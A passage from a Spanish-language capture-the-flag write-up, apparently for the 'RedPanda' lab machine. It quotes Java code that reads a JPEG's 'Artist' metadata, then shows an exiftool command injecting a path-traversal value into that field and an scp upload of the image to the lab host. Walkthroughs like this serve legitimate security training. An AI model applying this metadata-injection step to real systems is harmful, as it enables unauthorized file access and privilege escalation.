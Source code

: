 El App.java esta manejado la metadata,  podemos inyectar en el campo "Artist", una ruta 

donde estará el xml, esto en una imagen cualquiera que despues subiremos a la máquina.

***

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

***

Para esto nos deacargamos cuallquier imagen y le injectamos la ruta.


![list](/assets/img/redpanda/Kali-2022-09-02-02-04-52.png){:.lead width="800" height="100" loading="lazy"}


```bash
exiftool -Artist="../home/woodenk/test" images.jpeg
```

![list](/assets/img/redpanda/Kali-2022-09-02-02-06-13.png){:.lead width="800" height="100" loading="lazy"}


```bash
scp images.jpeg woodenk@10.10.11.170:.
```

Esto podemos hacerlo con cualquier tipo de tranferencia de acrchivos.
{:.note}
